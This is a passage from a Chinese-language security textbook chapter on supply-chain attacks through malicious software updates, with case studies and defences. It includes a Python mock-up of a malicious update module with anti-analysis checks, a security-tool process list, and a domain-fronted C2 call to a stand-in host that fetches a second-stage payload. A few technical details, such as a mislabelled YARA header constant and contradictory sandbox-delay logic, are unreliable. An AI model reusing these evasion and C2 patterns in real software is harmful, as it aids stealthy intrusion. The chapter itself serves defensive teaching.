


## 24.5 案例五：供应链攻击中的恶意更新分析

### 24.5.1 案例背景

2023年，某知名IT管理软件的更新服务器被攻击者入侵，恶意更新被推送给数万客户。这一事件的背后，揭示的是现代软件供应链攻击的一个典型剖面——攻击者不再直接攻击目标组织本身，而是通过感染目标所信任的软件供应商或依赖链，借助合法渠道实现对下游客户的渗透。

**供应链攻击（Supply Chain Attack）** 的定义非常简单但威力极大：攻击者并非直接攻击目标，而是在目标信任的某个上游环节注入恶意代码，利用该信任关系对下游客群实施大规模渗透。根据CrowdStrike《2024全球威胁报告》，供应链攻击在2023年同比增长了58%，每次成功攻击的平均影响范围达到9000+组织，远超传统直接攻击的数百倍放大效应。

本章节将从恶意更新这个最典型的供应链攻击切入点出发，完整分析攻击流程、恶意更新代码的技术特征、检测方法与防御体系，并通过SolarWinds、Kaseya、CCleaner、3CX和xz-utils等真实案例，为读者构建一个从理论到实战的完整知识体系。

### 24.5.2 供应链攻击的分类与演化

#### 攻击入口分类

根据攻击者切入供应链的不同节点，供应链攻击可分为以下主要类型：

| 类型 | 攻击切入点 | 典型手法 | 真实案例 |
|------|-----------|---------|---------|
| **软件构建链** | 构建/编译环境 | 入侵CI/CD服务器植入后门 | SolarWinds（Build服务器被攻陷） |
| **更新分发通道** | 更新服务器/CDN | 劫持更新服务器推送恶意更新 | CCleaner、3CX |
| **开源依赖链** | 第三方库/依赖 | 注入恶意代码到开源包 | Event-stream（npm）、xz-utils |
| **源码仓库** | Git仓库/SVN | 提交恶意代码到源码 | PHP官方Git仓库被篡改 |
| **硬件/固件** | 硬件设计/固件 | 在主板或固件中植入后门 | Supermicro传闻 |
| **证书信任链** | 代码签名证书 | 窃取/伪造签名证书 | Stuxnet使用Realtek证书 |

#### 恶意更新的三类模式

恶意更新作为供应链攻击最主流的方式，根据攻击者的控制层级，可分为以下三种模式：

**模式一：更新服务器沦陷型**

攻击者直接入侵软件供应商的更新服务器，替换或篡改服务器上的更新包。这是最直接的方式，也是本案例的核心场景。攻击者获得服务器权限后，可以精确控制"哪些版本推送给哪些客户"。

**模式二：构建环境污染型**

攻击者不直接修改更新服务器，而是在软件的构建/编译阶段注入恶意代码。这种方式更加隐蔽——恶意代码在构建过程中自动加入发布包中，甚至源代码本身可能都是干净的，恶意注入发生在编译脚本、构建依赖或CI/CD流水线层面。

**模式三：中间人篡改型**

攻击者在软件更新的网络传输过程（CDN、代理服务器、镜像站点）中截获并篡改更新包。这种方式不需要入侵供应商的服务器，但通常需要配合DNS劫持、BGP路由劫持或证书欺诈才能绕过TLS验证。

### 24.5.3 攻击链深度分析

```mermaid
graph TD
    A[侦察阶段] --> B[入侵构建服务器]
    B --> C[植入恶意更新模块]
    C --> D[签署恶意更新]
    D --> E[推送至更新服务器]
    E --> F[正常渠道分发至客户]
    F --> G[客户端更新程序下载并执行]
    G --> H[延迟执行 1-2小时]
    H --> I{环境检测}
    I -->|检测到安全工具| J[静默退出 - 避免暴露]
    I -->|环境安全| K[建立C2通信]
    K --> L[下载第二阶段payload]
    L --> M[横向移动]
    M --> N[数据窃取/植入后门]

    style A fill:#1a1a2e,stroke:#e94560
    style B fill:#1a1a2e,stroke:#e94560
    style F fill:#16213e,stroke:#0f3460
    style H fill:#16213e,stroke:#0f3460
    style J fill:#16213e,stroke:#e94560
    style L fill:#16213e,stroke:#e94560
```



上述攻击链的每个阶段都有其独特的技术特征和检测点：

#### 阶段一：侦察与入侵构建服务器

攻击者通过鱼叉邮件钓鱼、漏洞利用（未打补丁的Confluence/Citrix/Exchange服务器）、或凭据窃取等手段获取构建服务器的初始进入权限。SolarWinds事件中，攻击者使用了SolarWinds自身的IT管理产品的已知漏洞（CVE-2021-35211）作为入口点。

**关键检测点**：异常的管理员登录行为、非工作时间段的构建操作、构建服务器上出现意外的网络连接。

#### 阶段二：植入恶意更新模块

攻击者在合法的构建流程中注入恶意代码。注入方式包括：

1. **直接修改源码**：在少数源文件中加入恶意功能代码
2. **修改构建脚本**：在Makefile或MSBuild脚本中添加隐藏的编译指令，将恶意代码静态链接到发布包中
3. **替换合法依赖库**：将组织内部使用的第三方库替换为包含后门的版本
4. **修改构建工具**：篡改编译器或链接器本身（作为"信任的源头"攻击）

**关键检测点**：构建产物与干净构建的哈希值差异、构建过程中意外的文件访问、构建日志中的异常指令。

#### 阶段三：代码签署与分发

这是供应链攻击中最狡猾的一环——攻击者使用窃取到的合法代码签名证书对恶意更新进行签名。由于签名是合法的（证书来自供应商内部的硬件安全模块HSM或在构建过程中自动加载），所有基于数字签名的信任机制都会认为更新是安全的。

**关键检测点**：代码签名时间与正常版本发布时间的异常间隔、证书的异常使用频率、签名中包含的非标准扩展字段。

#### 阶段四：客户端更新与延迟执行

合法的更新程序下载并安装恶意更新后，恶意代码不会立即激活——这是避免在安装阶段被发现的关键设计。典型的延迟执行策略包括：

- **时间延迟**：安装后等待1-2小时甚至数天再触发
- **触发条件**：只在特定条件下激活（如系统空闲超过30分钟、用户断开VPN后、特定应用程序启动时）
- **分批激活**：不同地理位置的客户端在不同时间激活，避免集中异常流量被检测

#### 阶段五：建立C2通信与横向移动

恶意更新中的第一阶段代码通常是"dropper"或"loader"——它只负责建立安全通信通道，下载第二阶段实际功能的payload。这种分阶段设计的好处是：第一阶段的代码相对较小且隐蔽，容易被误认为是正常软件功能的一部分。



### 24.5.4 恶意更新的技术特征

#### 代码注入方式

```python
# 恶意更新的代码注入方式 - 完整演示
import time
import random
import base64
import json
import socket
import hashlib
import os
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

class MaliciousUpdate:
    """
    模拟恶意更新中的恶意模块结构
    注意：此为简化教学示例，展示典型技术模式
    """
    
    def __init__(self):
        self.config = self._load_embedded_config()
        self.stage = 0  # 0=休眠, 1=激活, 2=C2连接, 3=payload执行
        
    def _load_embedded_config(self):
        """从更新包中加载嵌入的加密配置"""
        # 配置以AES-256加密形式嵌入在合法更新文件的
        # PE资源节区（.rsrc）或文件末尾附加数据中
        encrypted_config = self._read_resource_section("UPDATECFG")
        key = hashlib.sha256(b"ProgramName_Internal_Version_2.3.1").digest()
        cipher = AES.new(key, AES.MODE_CBC, iv=b"\x00" * 16)
        config_json = unpad(cipher.decrypt(encrypted_config), 16)
        return json.loads(config_json)
    
    def execute(self):
        """恶意模块执行流程"""
        # ============ 阶段0：环境检查与延迟执行 ============
        
        # 1. 基础环境检查
        if not self._check_environment():
            return  # 静默退出
        
        # 2. 延迟执行 - 随机1-2小时
        # SolarWinds的SUNBURST后门延迟了约2周才激活
        # 这里使用1-2小时作为演示
        delay = random.randint(3600, 7200)
        # 检查系统是否在沙箱中（沙箱通常不会运行超过5分钟）
        if not self._is_sandboxed():
            time.sleep(min(delay, 300))  # 在沙箱环境中缩短等待
        else:
            time.sleep(delay)
            # 第二次延迟检查：沙箱通常不会长时间监控
            if self._is_sandboxed():
                return
        
        # ============ 阶段1：安全环境检测 ============
        
        # 3. 检测安全软件
        # 检查进程列表中的安全工具
        security_processes = [
            "procmon.exe", "procmon64.exe",
            "processhacker.exe", "processhacker64.exe",
            "wireshark.exe", "dumpcap.exe",
            "x64dbg.exe", "x32dbg.exe",
            "ollydbg.exe", "immunitydebugger.exe",
            "vmtoolsd.exe", "vboxservice.exe",
            "tcpview.exe", "autoruns.exe",
            "sysmon.exe", "sysmon64.exe",
            "windbg.exe", "ida64.exe", "ida.exe",
            "fiddler.exe", "charles.exe", "burpsuite.exe"
        ]
        for proc in security_processes:
            if self._process_exists(proc):
                self._log("安全工具检测命中: " + proc)
                return  # 环境不安全，静默退出
        
        # 4. 网络环境检查
        # 检查DNS解析是否被重定向（沙箱常用手法）
        if not self._check_dns_is_real():
            return
        
        # 5. 用户交互检测
        # 检查是否存在真实的用户交互（沙箱通常缺乏） 
        if not self._check_user_interaction():
            return
        
        # ============ 阶段2：C2通信 ============
        
        # 6. 初始化C2通信
        # SolarWinds使用HTTPS GET请求，混入正常API调用中
        # CCleaner使用HTTP明文通信，C2域名伪装成统计服务器
        self.stage = 2
        c2_session = self._init_c2_communication()
        if not c2_session:
            return
        
        # 7. 下载第二阶段Payload
        stage2_payload = self._download_stage2(c2_session)
        if not stage2_payload:
            return
        
        # ============ 阶段3：Payload执行 ============
        
        self.stage = 3
        # 反射加载 - 不写入磁盘
        self._execute_reflective_loader(stage2_payload)
    
    def _check_environment(self):
        """检查运行环境是否满足执行条件"""
        # 检查操作系统版本
        if sys.platform != "win32":
            return False
        # 检查是否在Windows Safe Mode
        if self._is_safe_mode():
            return False
        # 检查磁盘空间（沙箱通常没有足够的用户数据）
        disk_free = self._get_disk_free_space()
        if disk_free < 10 * 1024 * 1024 * 1024:  # 小于10GB
            return False  # 可能是沙箱
        return True
    
    def _is_sandboxed(self):
        """反沙箱检测"""
        sandbox_indicators = 0
        # 检查是否为沙箱/虚拟机
        if self._check_hypervisor_present():
            sandbox_indicators += 1
        # 检查是否在人机交互环境
        if not self._check_mouse_movement():
            sandbox_indicators += 1
        # 检查内存大小（沙箱通常只分配2-4GB）
        if self._get_total_memory_gb() < 4:
            sandbox_indicators += 1
        return sandbox_indicators >= 2
    
    def _init_c2_communication(self):
        """初始化C2通信 - 使用Domain Fronting绕过代理检测"""
        # 通过CDN进行Domain Fronting
        # 请求发送到真实CDN（如cloudfront.net），
        # Host头设置为C2域名，CDN将请求转发到C2服务器
        c2_domain = self.config.get("c2_domain", "cdn.cloudfront.net")
        actual_c2 = self.config.get("actual_c2", "update.supplychain-malware.com")
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(10)
            sock.connect((c2_domain, 443))
            http_request = (
                f"GET /api/v3/check HTTP/1.1\r\n"
                f"Host: {actual_c2}\r\n"
                f"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n"
                f"Accept: application/json\r\n"
                f"X-Request-ID: {random.randint(100000, 999999)}\r\n"
                f"\r\n"
            )
            sock.send(http_request.encode())
            response = sock.recv(4096)
            sock.close()
            return response
        except Exception:
            return None
    
    def _download_stage2(self, session):
        """下载第二阶段Payload"""
        # 从C2服务器获取加密的第二阶段payload
        # payload以常规JSON格式返回，伪装为遥测数据
        encrypted_data = self._http_get("https://cdn.update.com/telemetry/collect")
        if encrypted_data:
            return self._decrypt_payload(encrypted_data)
        return None
    
    def _execute_reflective_loader(self, payload):
        """反射式DLL加载 - 不创建文件"""
        # 以下为概念性伪代码
        # 实际实现需要使用VirtualAlloc + WriteProcessMemory + 
        # 手动解析PE头 + 修改导入表 + 调用DllMain
        # memory = VirtualAlloc(None, len(payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
        # RtlMoveMemory(memory, payload, len(payload))
        # 修改PE加载基址
        # 解析导入表并加载依赖DLL
        # 重定位表修复
        # 调用DllMain入口
        pass
```

#### 恶意更新的隐蔽技术矩阵

| 技术类别 | 具体技术 | 对抗目标 | 绕过难度 |
|---------|---------|---------|---------|
| **环境检测** | 检查安全软件进程列表 | AV/EDR检测 | 低 |
| **环境检测** | 检测调试器、分析工具 | 逆向工程 | 中 |
| **环境检测** | 检测虚拟化痕迹（VMware/VirtualBox） | 沙箱分析 | 中 |
| **时间逃避** | 延迟执行（1小时~2周） | 沙箱时间窗口 | 高 |
| **时间逃避** | 基于系统运行时间的条件触发 | 新鲜安装的沙箱 | 高 |
| **通信混淆** | Domain Fronting | 流量检测 | 高 |
| **通信混淆** | DNS-over-HTTPS隧道 | DNS监控 | 高 |
| **通信混淆** | HTTPS证书固定（绕过MITM） | SSL解包代理 | 中 |
| **载荷隐蔽** | 反射式DLL加载（无文件落地） | 文件扫描 | 高 |
| **载荷隐蔽** | 合法内存分配（关键进程注入） | 进程监控 | 高 |
| **执行控制** | 分阶段Payload（Stage-1/2分离） | 单点检测 | 高 |
| **代码混淆** | 控制流平坦化、字符串加密 | 静态分析 | 中 |

### 24.5.5 检测与防御体系

#### 软件完整性验证

供应链攻击防御的第一道防线是严格验证所下载和安装的软件完整性。然而，传统的完整性验证方式在供应链攻击面前存在根本缺陷——当攻击者控制了构建服务器和签名证书时，基于哈希和签名的验证完全失效。

**多层验证策略**：

```bash
# ============================================
# 第一层：文件哈希验证
# 局限：需要官方发布权威哈希值，且哈希本身不受污染
# ============================================

# 获取官方发布的SHA-256哈希值（务必通过安全渠道）
official_hash="sha256:abcdef1234567890..."

# 计算下载文件的SHA-256哈希
download_hash=$(sha256sum update.exe | awk '{print $1}')

# 比较哈希值
if [ "$official_hash" = "sha256:$download_hash" ]; then
    echo "[PASS] 文件哈希验证通过"
else
    echo "[FAIL] 哈希验证失败！文件可能已被篡改"
    exit 1
fi

# ============================================
# 第二层：数字签名验证
# 局限：攻击者使用窃取的证书可正常通过
# ============================================

# Windows下使用SignTool验证
signtool verify /pa /v update.exe

# 检查签名时间戳（确保不是在证书吊销后签发）
signtool verify /pa /v /tw update.exe | findstr "Timestamp"

# 检查PAGE Hash（PE文件的哈希校验）
signtool verify /pa /v /ph update.exe

# ============================================
# 第三层：证书吊销检查（CRL/OCSP）
# 攻击者使用的证书可能已被吊销
# ============================================

# 检查证书吊销状态
certutil -verify -urlfetch update.exe

# 获取签名证书信息
$cert = Get-AuthenticodeSignature -FilePath "update.exe"
$cert.SignerCertificate | Format-List Subject, SerialNumber, NotAfter, Thumbprint

# 检查证书的签发时间和有效期
# 异常特征：证书签发日期在周末或节假日
# 异常特征：证书即将到期（攻击者可能通过社会工程获得临时证书）

# ============================================
# 第四层（高级）：与已知干净版本比对
# 使用可信的第三方验证服务
# ============================================

# 提交哈希到VirusTotal验证（注意隐私问题）
# 查询文件哈希在VT上的历史记录
curl -X GET "https://www.virustotal.com/api/v3/files/$file_hash" \
     -H "x-apikey: $VT_API_KEY" | jq '.data.attributes.last_analysis_results'

# 注意：如果文件是全新的，VT可能没有记录，
# 但这本身就是一个潜在的红旗信号
```

#### 行为监控与检测

由于恶意更新在启动后表现出特定的行为模式，主机层面的行为监控是检测供应链攻击的核心手段：

```powershell
# ============================================
# PowerShell - 系统行为监控
# ============================================

# 监控关键行为指标
# 1. 异常的网络连接
Get-NetTCPConnection | Where-Object { 
    $_.State -eq "Established" -and 
    $_.RemotePort -in @(80, 443, 8080, 8443) -and
    $_.OwningProcess -ne 0
} | Format-Table LocalAddress, LocalPort, RemoteAddress, RemotePort, OwningProcess -AutoSize

# 2. 监控正在运行的进程 - 检查意外的子进程
Get-WmiObject Win32_Process | Where-Object {
    $_.Name -match "^(powershell|cmd|wscript|cscript|rundll32|regsvr32|mshta|wmiprvse)$"
} | Format-Table ProcessId, Name, CommandLine, ParentProcessId -AutoSize

# 3. 监控自启动项
Get-CimInstance Win32_StartupCommand | Format-Table Name, Command, Location, User -AutoSize

# 4. 监控WMI事件订阅（持久化）
Get-WmiObject -Namespace root\subscription -Class __EventFilter
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding

# 5. 监控计划任务
Get-ScheduledTask | Where-Object { 
    $_.State -eq "Ready" -and 
    $_.TaskPath -notlike "*Microsoft*" -and
    $_.TaskPath -notlike "*Windows*" 
} | Format-Table TaskName, TaskPath, State
```

```bash
# ============================================
# Linux/macOS - 系统行为监控
# ============================================

# 监控意外的后台进程
ps aux | grep -E "(curl|wget|bash|python|perl)" | grep -v grep

# 监控网络连接
lsof -iTCP -sTCP:ESTABLISHED -P -n

# 监控文件系统变化（重要的系统配置文件）
inotifywait -m -r /etc /usr/local/bin /opt 2>/dev/null &

# 监控DNS查询（所有DNS查询都可能揭示C2通信）
tcpdump -i any -n port 53 2>/dev/null &

# 监控计划任务（cron）
cat /etc/crontab
ls -la /etc/cron.*/
```

#### YARA检测规则

针对已知的供应链攻击恶意更新模式，可以编写YARA检测规则：

```yara
/*
 * 供应链攻击恶意更新检测规则
 * 适用于已知的恶意更新技术模式
 */

rule SupplyChain_MaliciousUpdate_SolarWinds_Style
{
    meta:
        description = "检测类SolarWinds风格的供应链攻击恶意更新"
        author = "安全分析团队"
        reference = "案例五：供应链攻击中的恶意更新分析"
        date = "2024-01"
        hash = "参照各IoC数据库"

    strings:
        // 太阳能风SUNBURST后门特征
        $s1 = "Orion Improvement Program" ascii wide
        $s2 = "SolarWinds.Orion.Core.BusinessLayer" ascii wide
        
        // 恶意更新通用特征
        $m1 = "Telemetry" ascii wide
        $m2 = "UpdateCheck" ascii wide
        $m3 = "BackgroundService" ascii wide
        
        // 加密/压缩相关字符串
        $c1 = "AES" ascii wide
        $c2 = "GZipStream" ascii wide
        $c3 = "XOR" ascii wide

    condition:
        2 of ($s*) or ($m1 and $m2) or (3 of ($c*) and filesize < 2MB)
}

rule SupplyChain_DomainFronting_Indicator
{
    meta:
        description = "检测Domain Fronting通信模式"
        author = "安全分析团队"

    strings:
        // 异常的CDN请求
        $http_cloudfront = "cloudfront.net" nocase
        $http_azureedge = "azureedge.net" nocase
        $http_cloudflare = "cloudflare.com" nocase
        $http_fastly = "fastly.net" nocase
        
        // 请求数据特征
        $query_param = "id="
        $json_mime = "application/json"
        $xml_mime = "text/xml"

    condition:
        // 频繁访问大型CDN但没有对应的服务使用
        (any of ($http_*)) and (
            #query_param > 10 or
            uint32(0) == 0x504D4953  // MZ header (PE file)
        )
}

rule SupplyChain_ReflectiveDLL_Loader
{
    meta:
        description = "检测反射式DLL加载特征"
        author = "安全分析团队"

    strings:
        $reflective1 = "ReflectiveLoader" ascii wide
        $reflective2 = "VirtualAlloc" ascii wide
        $reflective3 = "NtHeader" ascii wide
        $reflective4 = "ImageBase" ascii wide
        
        // Loader常见字符串
        $loader1 = "LoadLibraryA"
        $loader2 = "GetProcAddress"
        $loader3 = "GetModuleHandle"

    condition:
        2 of ($reflective*) and all of ($loader*) and filesize < 500KB
}
```

### 24.5.6 真实案例分析

#### 案例 A：SolarWinds SUNBURST（2020）

**攻击概述**：这是迄今为止影响最大、技术最复杂的供应链攻击。攻击者入侵了SolarWinds的构建环境，在其Orion网络监控平台的产品更新中植入了后门（代号SUNBURST）。

| 维度 | 详情 |
|------|------|
| **攻击手法** | 入侵构建服务器，在合法的Orion代码库中插入恶意代码 |
| **植入时机** | 2019年10月至2020年5月的多个版本更新 |
| **影响范围** | 约18,000个组织下载了受感染的更新包 |
| **最终目标** | 约100个精选高价值目标（政府、科技公司、安全公司） |
| **C2通信** | 使用合法的Orion API进行通信，伪装成正常遥测数据 |
| **签名状态** | 使用SolarWinds合法的代码签名证书签署 |
| **检测难度** | 极高——后门只在特定条件下激活（大小不超过约500字节） |
| **逃避技术** | 内置2周的延迟触发；检测调试器/分析环境；域名白名单验证 |

**关键教训**：
1. 即使有完善的代码签名流程，也无法防御构建层面的供应链攻击
2. SUNBURST后门仅有500字节，表明高度精炼的恶意代码可以极其隐蔽
3. 后门使用了"睡眠但保持可唤醒"的模式——它不持续活跃，只在特定时间窗口内活动

#### 案例 B：Kaseya VSA Ransomware（2021）

**攻击概述**：REvil勒索软件组织利用Kaseya VSA远程管理软件的漏洞（CVE-2021-30116），通过合法的软件更新推送机制部署勒索软件，影响了约1,500家MSP服务商及其下游的约60,000家企业。

**关键技术细节**：
- 攻击者利用VSA软件中的认证绕过漏洞获取管理后台访问权限
- 通过VSA的内置更新分发功能，将勒索软件作为"合法更新"推送到所有客户的终端
- 勒索软件在15分钟内完成全网的加密操作——这是MSP集中管理架构的"双刃剑"效应

**与SolarWinds的对比**：

| 对比维度 | SolarWinds | Kaseya |
|---------|-----------|--------|
| 攻击类型 | 后门植入（间谍活动） | 勒索软件（经济勒索） |
| 攻击深度 | 构建链层面 | 产品漏洞层面 |
| 受影响客户数 | 18,000 | 60,000+ |
| 主动检测难度 | 极高（后门极小且高度定制） | 中（漏洞利用行为可检测） |
| 响应时间 | 8+个月才被发现 | 数天内被发现并响应 |

#### 案例 C：CCleaner恶意版本（2017）

**攻击概述**：攻击者入侵了Piriform（CCleaner开发商）的构建环境，在CCleaner 5.33版本中植入了恶意代码。该版本在2017年8月至9月期间通过官方渠道分发给约227万用户。

**关键技术细节**：
- 恶意代码是合法CCleaner构建过程中被注入的，不是事后替换文件
- 后门使用硬编码的C2域名，在所有感染的系统上执行相同的逻辑
- 有趣的是，第二阶段payload的目标IP地址范围包括多家知名科技公司的内网IP段，显示这是一次有针对性的供应链攻击
- 恶意更新的大小仅比干净版本大了几KB，难以通过文件大小差异发现

**误区和教训**：
- **误区**："代码签名验证通过就等于安全"——CCleaner的恶意版本拥有合法的代码签名
- **教训**：代码签名证明的是"谁签署了文件"，而不是"文件是否安全"
- **教训**：即使是有多年良好声誉的软件供应商，也可能在一夜之间变成攻击渠道

#### 案例 D：3CX Desktop App（2023）

**攻击概述**：2023年3月，VoIP软件公司3CX遭到供应链攻击，其桌面应用（Electron架构）的Windows和macOS版本中都植入了恶意代码。攻击影响约60万客户，包括多个知名品牌和政府机构。

**独特技术特征**：
- 使用Electron应用的JavaScript代码注入，而非传统的PE文件修改
- 恶意代码在构建过程中被自动编译到最终产品中，而非事后修改
- 使用合法的3CX代码签名证书签署

**关键检测指标**：
```yaml
# 3CX供应链攻击检测IoC参考
indicators:
  network:
    - domain: "*.akamaitechcloudservices.com"  # 伪装的C2域名
    - domain: "*.journalide.org"
    - domain: "*.msedgepackage.net"
  file:
    - hash: "3CXDesktopApp.exe"  # 受感染的版本哈希
    - path: "%ProgramFiles%\3CX Desktop App\app\ffmpeg.dll"  # DLL劫持
  behavior:
    - "Xbox Live" DLL加载行为  # 正常软件的异常DLL调用
    - 频繁请求JSON配置文件
```

**关键教训**：
1. 现代应用使用的跨平台框架（Electron）引入了新的供应链攻击面
2. 签名证书无法阻止攻击——再次印证了"可信不代表安全"
3. 即使是非敏感类软件（通讯应用），一旦被攻破也能成为大规模入侵渠道

#### 案例 E：xz-utils后门（2024）

**攻击概述**：2024年3月，发现了xz-utils（一个广泛使用的Linux数据压缩库，几乎是每个Linux发行版的标配）中植入的后门。攻击者经过数年的社会工程和代码贡献，最终获得了项目维护者权限，在代码库中植入了后门。

**独特之处**：
- 这不是传统的"入侵服务器"攻击，而是典型的社会工程渗透开源社区
- 攻击者使用多个假身份，耗时约2-3年建立信任关系
- 后门非常隐蔽——只在特定的SSH版本和构建条件下被激活
- 影响之广：一旦被广泛分发，预计将影响全球99%的Linux服务器

**关键教训**：
1. **开源不等于安全**——开源项目的代码审查无法保证发现精心构造的后门
2. **信任需要验证**——即使是长期贡献者提交的代码也需要严格审查
3. **依赖关系管理至关重要**——一个未被审查的库更新可能影响整个生态

### 24.5.7 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "代码签名通过，更新就是安全的" | 代码签名只验证来源，不验证内容。攻击者窃取签名证书后可以签署任意恶意代码 |
| "只使用官方渠道下载就没问题" | SolarWinds、CCleaner和3CX都是通过官方渠道分发的 |
| "我们不做供应链攻击的防御" | 供应链攻击的目标通常是下游客户，"我们不重要"的想法是危险的 |
| "检测到恶意更新就万事大吉" | 检测只是第一步——完整的响应包括：影响范围评估、IoC提取、清除方案、根因分析、经验总结 |
| "更新延迟执行是服务器响应慢" | 1-2小时的延迟是恶意更新的典型行为模式，不是正常的服务器响应特征 |

### 24.5.8 进阶防御策略

针对传统防御策略（哈希验证和代码签名）在供应链攻击面前失效的根本困境，安全界提出了以下进阶防御体系：

#### 1. 软件物料清单（SBOM）

SBOM（Software Bill of Materials）是所有系统组件和依赖关系的详细清单。就像食品包装上的营养成分配料表，SBOM列出了软件中的所有组件、版本号和依赖关系。

```json
{
  "$schema": "https://cyclonedx.org/schema/bom-1.5.schema.json",
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "version": 1,
  "metadata": {
    "component": {
      "name": "Application",
      "version": "2.3.1",
      "type": "application"
    }
  },
  "components": [
    {
      "name": "libcurl",
      "version": "7.79.0",
      "purl": "pkg:generic/libcurl@7.79.0",
      "hashes": [
        {"alg": "SHA-256", "content": "a1b2c3d4..."}
      ]
    },
    {
      "name": "zlib",
      "version": "1.2.11",
      "purl": "pkg:generic/zlib@1.2.11",
      "hashes": [
        {"alg": "SHA-256", "content": "e5f6a7b8..."}
      ]
    }
  ],
  "dependencies": [
    {"ref": "Application", "dependsOn": ["libcurl", "zlib"]}
  ]
}
```

**SBOM的防御价值**：在发生供应链攻击后，组织可以用SBOM快速定位受影响组件，无需花费数周时间进行人工排查。美国政府已通过行政令要求所有联邦政府供应商必须提供SBOM。

#### 2. 可重现构建（Reproducible Builds）

可重现构建确保：给定相同的源代码和构建环境，任何人、在任何时间、在任何机器上构建出的二进制文件在字节级别上完全相同。这意味着你可以独立验证二进制文件是否确实来自声称的源代码。



**实现可重现构建的关键挑战**：
- 时间戳：构建过程中生成的时间戳必须固定
- 随机数：使用确定性的随机数生成器
- 文件顺序：文件系统遍历顺序必须确定性
- 编译器版本：必须使用完全相同的编译器和参数
- 路径信息：源代码路径不能被硬编码到二进制中

Tor浏览器是最早实现可重现构建的主流项目，目前Debian、OpenWrt、Bitcoin Core等关键基础设施项目也已实现。

#### 3. 签名透明度（Signature Transparency）

借鉴Certificate Transparency（证书透明度）的思路，Signature Transparency要求所有代码签名记录在公开的、可审计的日志中。如果软件供应商签署了一个异常的二进制文件，安全社区可以及时发现：

- 类似Google的CT日志，所有签名活动记录在不可篡改的Merkle树上
- 安全团队可以监控其供应商的签名活动——异常签名会被发现
- 攻击者即使窃取了签名证书，也不敢在公开日志中留下记录

#### 4. 零信任更新分发

将零信任原则应用于软件更新流程：

1. **永不信任更新通道**：即使更新来自"官方渠道"，也需额外验证
2. **始终验证**：每次安装都必须独立验证（通过多个独立源验证哈希值）
3. **最小特权**：更新程序在客户端运行时不使用管理员权限（除非绝对必要）
4. **分段发布**：先发布给内部测试组，验证无异常后再向全量用户推送
5. **行为基线**：建立每个应用程序的正常行为基线（网络连接、文件访问、注册表操作），偏离基线的行为触发告警

#### 5. 供应链安全成熟度模型

| 成熟度级别 | 特征 | 实施要点 |
|-----------|------|---------|
| L0 - 无意识 | 不关注供应链安全，有更新就安装 | 无任何防护 |
| L1 - 基础 | 验证代码签名，使用HTTPS下载 | 启用代码签名验证，但信任供应商的签名 |
| L2 - 标准 | 引入SBOM，建立依赖清单 | 维护内部SBOM，跟踪第三方依赖变更 |
| L3 - 高级 | 建立信任基线，监控异常行为 | 应用程序行为基线，异常告警系统 |
| L4 - 最优 | 可重现构建 + 签名透明度 | 独立验证二进制产物，公开签名日志审计 |

### 24.5.9 事件响应流程

当组织怀疑遭受供应链攻击时，建议按以下流程响应：

#### 第一阶段：确认与隔离（0-4小时）

1. **切断可疑更新源**：立即暂停所有自动化更新部署，阻止分发扩散
2. **锁定受感染系统**：隔离已安装可疑更新的系统，但不要立即关机（保留内存证据）
3. **收集初始证据**：记录受影响系统列表、文件哈希、网络连接日志、进程快照
4. **通知利益相关方**：通知内部安全团队、IT运维团队，必要时通知法律团队

#### 第二阶段：分析与评估（4-24小时）

